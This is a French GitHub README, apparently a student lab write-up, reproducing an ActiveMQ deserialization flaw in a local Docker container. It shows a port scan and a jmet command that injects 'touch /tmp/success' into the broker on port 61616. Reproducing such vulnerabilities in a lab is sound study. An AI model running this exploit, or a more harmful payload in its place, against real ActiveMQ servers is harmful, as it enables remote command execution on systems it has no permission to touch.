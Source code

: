-----CVE 2015 -----

1- D'abord, j'ai effectuer un docker compose du fichier .yml dans ma version 2015 d'ActiveMQ afin d'avoir une image docker.
<img width="537" alt="image" src="https://github.com/user-attachments/assets/b78dcbb9-f180-4fbc-90a3-07cc6f2621af" />


2-Cette image Docker ayant été généré j'effectue un scan des différent ports de mo, IP afin de voir le port sur lequel je veux constater la comunication avec mon image docker d'activeMq

![Capture d'écran 2024-12-15 180108](https://github.com/user-attachments/assets/8e149b6e-3923-4e43-b1f3-a641202ca0ab)


3-Ensuite j'identifie la version d'activeMq en navigant sur la fenetre admin
 ![Uploading Capture d’écran 2024-12-15 182159.png…]()


4-Méthode de compromission:
 -En effet cette version d'activemq est vulnérable aux attaques de type injection de commande, ce qui va me permettre grçace à une charge malvaillante(fichier.jar) de pouvoir effectuer une injection au sein d'activeMq et de creer un répertoire appelé succès.
Pour ce faire je télécharge la charge malvaila,nte en release:  https://github.com/matthiaskaiser/jmet/releases)

-J'effectue mon injection avec cette commande:

java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME 10.0.2.15 61616

![Uploading Capture d’écran 2024-12-15 184207.png…]()


-Je pourrai ainsi observé sur l'interface d'activeMq cette mutation 
![Capture d'écran 2024-12-15 184322](https://github.com/user-attachments/assets/42850ea1-a5fe-4dcc-8c56-9e4e1eb0c764)

![Capture d'écran 2024-12-15 184617](https://github.com/user-attachments/assets/a7012242-8d44-4e16-ac7e-1650fdbfecbb)


-Enfin en prenant l'Identifiant de mon image docker d'ActiveMq : docker ps -a

![Capture d'écran 2024-12-15 184817](https://github.com/user-attachments/assets/e88b4e10-52ea-4931-8955-ce5c378615c4)


je pourrai exécuter cette commande afin de répérer mon repertoire ainsi créer: docker exec -it  (Id_image_docker) /bin/bash

![Capture d'écran 2024-12-15 185030](https://github.com/user-attachments/assets/c2ed3335-6236-44be-884c-6444dc81883a)
